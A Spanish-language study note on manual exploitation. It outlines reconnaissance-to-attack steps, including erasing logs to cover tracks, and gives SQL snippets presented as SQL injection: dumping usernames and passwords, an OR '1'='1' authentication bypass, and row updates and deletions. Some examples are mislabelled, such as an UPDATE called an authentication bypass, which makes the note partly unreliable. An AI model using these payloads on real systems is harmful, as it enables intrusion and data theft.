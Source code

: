 ___

- Tags: #explotación 

___

# Definición 

La **explotación manual** es una estrategia avanzada en el campo de la ciberseguridad, donde el atacante realiza la identificación y explotación de vulnerabilidades en un sistema de manera directa, sin depender en gran medida de herramientas automatizadas. Este enfoque requiere un conocimiento profundo del sistema objetivo y de las técnicas de explotación disponibles. A continuación, se destacan las características y consideraciones clave de la explotación manual:


____

# Características Principales

1. **Conocimiento Profundo:**
    
    - Los atacantes que optan por la explotación manual deben tener un conocimiento exhaustivo del sistema objetivo, incluidas sus configuraciones, servicios en ejecución y posibles vulnerabilidades.

2. **Precisión y Control:**
    
    - A diferencia de los métodos automatizados, la explotación manual permite un mayor control sobre el proceso. El atacante puede adaptar sus técnicas en tiempo real y ajustar la estrategia según la respuesta del sistema.

3. **Mayor Esfuerzo y Habilidad:**
    
    - La explotación manual implica un esfuerzo significativo por parte del atacante, ya que se requiere un entendimiento profundo de las vulnerabilidades y de las técnicas de explotación. La habilidad técnica y la paciencia son clave en este enfoque.

4. **Menos Detección:**
    
    - Al evitar el uso de herramientas automatizadas, la explotación manual puede ser menos detectable por los sistemas de defensa de seguridad. Esto se debe a que las tácticas son más específicas y pueden eludir firmas de detección comunes.

___

# Pasos en la Explotación Manual

1. **Reconocimiento:**
    
    - El atacante realiza una investigación exhaustiva para identificar información sobre el sistema objetivo, como puertos abiertos, servicios en ejecución y posibles puntos de vulnerabilidad.

2. **Identificación de Vulnerabilidades:**
    
    - Se analizan detalladamente los resultados del reconocimiento para identificar posibles vulnerabilidades en el sistema.

3. **Desarrollo de Estrategia:**
    
    - Se planifica una estrategia específica para aprovechar las vulnerabilidades identificadas. Esto puede incluir el desarrollo de exploits personalizados.

4. **Ejecución del Ataque:**
    
    - El atacante implementa la estrategia y realiza la explotación manual, aprovechando las vulnerabilidades para obtener acceso no autorizado o realizar acciones maliciosas.

5. **Cobertura de Huellas:**
    
    - Se realizan esfuerzos para minimizar las huellas del ataque y evitar la detección, como la eliminación de registros y la ocultación de actividades maliciosas.

____
# Ejemplos de explotación manual 

Entendido, aquí tienes algunos ejemplos específicos de explotación manual en el contexto de inyección SQL:

### Extracción de Datos:

```sql
SELECT username, password FROM users;
```

Obtener información sensible de la base de datos.
   
### Autenticación Bypass:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1';
```

Sortear la autenticación mediante inyección SQL.

### Obtención de Versiones:

```sql
SELECT @@version;
```

Identificar la versión del sistema de gestión de bases de datos (SGBD).
### Inyección en Consultas UPDATE:

```sql
UPDATE users SET password = 'new_password' WHERE username = 'target_user';
```

Sortear la autenticación mediante inyección SQL.

### Eliminación de Datos:

```sql
DELETE FROM users WHERE username = 'target_user';
```

Eliminar registros de la base de datos.

### Enumeración de Tablas:
   
   ```sql
   SHOW TABLES;
   ```
   
Identificar las tablas presentes en la base de datos.

### Enumeración de Columnas:**

```sql
DESCRIBE users;
```

Identificar las columnas de una tabla específica.
### Uso de Funciones de SQL:

   ```sql 
   SELECT CONCAT(username, '-', password) FROM users;
   ```

Aplicar funciones SQL para obtener resultados específicos.

### Obtención de Información del Sistema:

```sql
SELECT database(), user(), version();
```

Obtener detalles sobre el sistema de base de datos.

### Union-based SQL Injection:

 ```sql
SELECT username, password FROM users UNION SELECT table_name, column_name FROM information_schema.columns;
```

Utilizar la técnica de inyección basada en uniones para combinar resultados de consultas.

Para obtener una lista exhaustiva de payloads y técnicas de explotación, se recomienda explorar el repositorio [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings).





